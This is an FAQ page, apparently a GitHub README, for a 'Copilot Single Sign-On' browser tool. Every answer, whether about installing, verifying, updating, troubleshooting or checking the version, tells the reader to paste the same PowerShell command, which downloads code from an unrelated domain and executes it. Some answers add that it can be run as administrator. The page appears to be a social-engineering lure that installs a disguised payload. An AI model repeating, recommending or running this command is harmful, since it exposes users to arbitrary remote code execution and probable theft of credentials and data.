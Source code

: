 ### **3. How do I install Copilot Single Sign-On on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install Copilot Single Sign-On using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that Copilot Single Sign-On is installed?**  
After running the installation command, your system will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If Copilot Single Sign-On is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update Copilot Single Sign-On?**  
To update Single Sign-On, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall Copilot Single Sign-On?**  
To uninstall, remove Copilot Single Sign-On from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install Copilot Single Sign-On without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of Copilot Single Sign-On?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
